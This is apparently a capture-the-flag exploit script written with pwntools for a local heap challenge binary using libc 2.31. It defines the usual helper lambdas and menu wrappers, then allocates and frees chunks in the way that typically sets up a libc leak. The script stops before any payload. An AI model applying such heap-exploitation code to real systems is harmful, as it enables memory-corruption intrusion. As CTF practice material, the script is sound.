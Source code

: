 ```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=remote('47.100.137.175',30134)
p=process("./pwn")
libc = ELF('./libc-2.31.so')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause() 

menu = 'Your choice:'

def add(index, size, content):
    p.sendlineafter(menu, '1')
    p.sendlineafter('Index: ', str(index))
    p.sendlineafter('Size: ', str(size))
    p.sendafter('Content: ', content)


def delete(index):
    p.sendlineafter(menu, '3')
    p.sendlineafter('Index: ', str(index))

def show(index):
    p.sendlineafter(menu, '2')
    p.sendlineafter('Index: ', str(index))

for i in range(9):
    add(i,0x80,'aaaa')

for i in range(8):
    delete(7-i)

```